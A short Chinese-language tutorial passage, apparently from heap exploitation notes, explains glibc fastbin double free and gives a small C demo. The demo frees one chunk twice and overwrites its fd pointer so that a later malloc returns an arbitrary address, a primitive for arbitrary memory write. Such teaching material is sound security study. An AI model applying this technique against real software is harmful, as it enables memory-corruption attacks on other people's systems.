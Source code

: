 在图中的两个chunk1实际上是同一个chunk

在能够fastbin double free后，可以将同一个chunk malloc出多次，或者修改fd指针，使得将指针指向任意地址

```c
#include <stdlib.h>
#include <stdio.h>

int main(void)
{
    void *chunk1, *chunk2, *chunk3;
    chunk1 = malloc(0x10);
    chunk2 = malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    char *p1 = malloc(0x10);
    char *p2 = malloc(0x10);

    *(unsigned long long *)p1 = 0x10000;

    char *p3 = malloc(0x10);

    return 0;
}
```

 在这一个程序中，修改了p1的chunk的fd，使得在最后一个malloc之后，fastbin的链表中并不是0，而是指向了0x10000，如果能够指向有意义的地址，那么在下一次fastbin分配的时候，就可以将对应地址作为chunk取出，从而实现任意地址写入

```
fastbins
0x20: 0x10000
```

